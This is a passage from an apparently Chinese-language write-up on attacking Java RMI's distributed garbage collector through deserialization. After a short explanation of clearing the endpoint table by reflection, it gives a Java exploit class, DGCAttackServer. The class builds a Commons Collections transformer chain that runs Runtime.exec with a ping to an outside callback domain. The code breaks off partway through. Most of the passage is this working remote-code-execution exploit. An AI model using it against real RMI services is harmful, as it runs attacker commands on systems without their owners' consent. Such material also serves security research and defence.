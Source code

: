 调试会发现此时的 entry 不等于 null，无法进入`entry = new EndpointEntry(ep);`，如下-->

![alt text](19.png)

也简单，加一步反射直接将 endpointTable 清空即可（有点 DNSLog 那条链的感觉），之后就是反射调用 lookup 方法拿到 DGCImpl_Stub 的实例，重写 clean 方法即可，整理整理，给出最终的 EXP 如下-->

```java
import org.apache.commons.collections4.Transformer;
import org.apache.commons.collections4.functors.ChainedTransformer;
import org.apache.commons.collections4.functors.ConstantTransformer;
import org.apache.commons.collections4.functors.InvokerTransformer;
import org.apache.commons.collections4.map.TransformedMap;
import sun.rmi.registry.RegistryImpl_Stub;
import sun.rmi.server.UnicastRef;
import sun.rmi.transport.DGCImpl_Stub;
import sun.rmi.transport.Endpoint;
import sun.rmi.transport.LiveRef;
import sun.rmi.transport.tcp.TCPEndpoint;
import java.io.ObjectOutput;
import java.lang.annotation.Retention;
import java.lang.reflect.*;
import java.rmi.Remote;
import java.rmi.registry.LocateRegistry;
import java.rmi.server.Operation;
import java.rmi.server.RemoteCall;
import java.util.HashMap;
import java.util.Map;

public class DGCAttackServer {
    private static Object getPayload() throws Exception {
        Class<?> clazz = Class.forName("java.lang.Runtime");
        Transformer[] transformers = new Transformer[]{
                new ConstantTransformer(clazz),
                new InvokerTransformer(
                        "getMethod",
                        new Class[]{String.class, Class[].class},
                        new Object[]{"getRuntime", new Class[0]}
                ),
                new InvokerTransformer(
                        "invoke",
                        new Class[]{Object.class, Object[].class},
                        new Object[]{null, new Object[0]}
                ),
                new InvokerTransformer(
                        "exec",
                        new Class[]{String.class},
                        new Object[]{"ping 6y7d5.cxsys.spacestabs.top"}
                )
        };
        Transformer chainedTransformer = new ChainedTransformer(transformers);
        HashMap<Object,Object> map = new HashMap<>();
        map.put("value","xxx");
        Map<Object,Object> transformedMap = TransformedMap.transformingMap(map,null,chainedTransformer);
        Class<?> clazzSink = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
        Constructor<?> constructor = clazzSink.getDeclaredConstructor(Class.class, Map.class);
        constructor.setAccessible(true);
        Object instance = constructor.newInstance(Retention.class, transformedMap);
        return instance;
    }
    private static final Operation[] operations = new Operation[]{
            new Operation("void clean(java.rmi.server.ObjID[], long, java.rmi.dgc.VMID, boolean)"),
```